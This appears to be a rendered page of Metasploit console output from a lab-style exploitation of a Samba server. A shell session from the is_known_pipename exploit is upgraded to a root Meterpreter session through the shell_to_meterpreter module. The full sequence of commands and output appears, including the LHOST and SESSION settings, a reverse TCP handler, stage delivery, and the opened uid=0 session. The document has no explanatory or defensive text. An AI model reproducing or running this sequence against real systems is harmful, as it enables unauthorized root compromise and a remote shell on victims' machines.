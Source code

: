 ```
msf5 exploit(linux/samba/is_known_pipename) > sessions

Active sessions
===============

  Id  Name  Type            Information  Connection
  --  ----  ----            -----------  ----------
  1         shell cmd/unix               192.59.47.2:40283 -> 192.59.47.3:445 (192.59.47.3)
```

```
msf5 exploit(linux/samba/is_known_pipename) > search shell_to_meterpreter

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   1  post/multi/manage/shell_to_meterpreter                   normal  No     Shell to Meterpreter Upgrade


msf5 exploit(linux/samba/is_known_pipename) > use post/multi/manage/shell_to_meterpreter
msf5 post(multi/manage/shell_to_meterpreter) > show options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST                     no        IP of host that will receive the connection from the payload (Will try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION                   yes       The session to run this module on.
```

```
msf5 post(multi/manage/shell_to_meterpreter) > set LHOST eth1
LHOST => 192.59.47.2
msf5 post(multi/manage/shell_to_meterpreter) > set SESSION 1
SESSION => 1
msf5 post(multi/manage/shell_to_meterpreter) > run

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.59.47.2:4433 
[*] Sending stage (985320 bytes) to 192.59.47.3
[*] Meterpreter session 2 opened (192.59.47.2:4433 -> 192.59.47.3:59248) at 2023-02-02 11:16:12 +0000
[*] Command stager progress: 100.00% (773/773 bytes)
[*] Post module execution completed
msf5 post(multi/manage/shell_to_meterpreter) > sessions

Active sessions
===============

  Id  Name  Type                   Information                                 Connection
  --  ----  ----                   -----------                                 ----------
  1         shell cmd/unix                                                     192.59.47.2:40283 -> 192.59.47.3:445 (192.59.47.3)
  2         meterpreter x86/linux  uid=0, gid=0, euid=0, egid=0 @ 192.59.47.3  192.59.47.2:4433 -> 192.59.47.3:59248 (192.59.47.3)
```

